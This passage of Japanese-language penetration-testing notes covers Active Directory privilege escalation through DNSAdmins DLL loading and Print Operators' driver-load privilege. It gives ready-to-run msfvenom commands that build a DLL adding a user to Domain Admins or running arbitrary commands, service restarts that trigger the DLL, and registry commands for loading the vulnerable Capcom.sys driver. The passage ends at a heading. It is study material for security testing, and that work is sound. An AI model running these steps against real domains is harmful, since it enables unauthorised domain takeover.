 ### カスタムDLLの作成

ドメイン管理者グループにユーザーを追加
```
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```

リバースシェル

```
msfvenom -p windows/x64/exec cmd='<任意のコマンド>' -f dll -o evil.dll
```

## DNSの再起動

DNSを再起動することでロードしたDLLに埋め込まれたコマンドが実行される

```
sc stop dns
sc start dns
```

## Mimilib.dll

mimilib.dllを使用してコマンドを実行したり、特定のコマンドやリバースシェルを実行するように変更することもできる

[Abusing DNSAdmins privilege for escalation in Active Directory](https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html)

# Print Operators

Print Operators はメンバーに `SeLoadDriverPrivilege` (ドメイン コントローラーに接続されているプリンターを管理、作成、共有、削除する権限) と、ドメイン コントローラーにローカルでログオンしてシャットダウンする権限を付与する

## ドライバーへの参照を追加

`Capcom.sys` ドライバーをダウンロードし、以下のコマンドを発行して、HKEY_CURRENT_USER ツリーの下にこのドライバーへの参照を追加

```
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

### Capcom.sysがロードされているか確認する

`DriverView.exe` を使用すると、`Capcom.sys` ドライバーがロードされていないことを確認できる

```
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

### 特権が有効になっていることを確認する
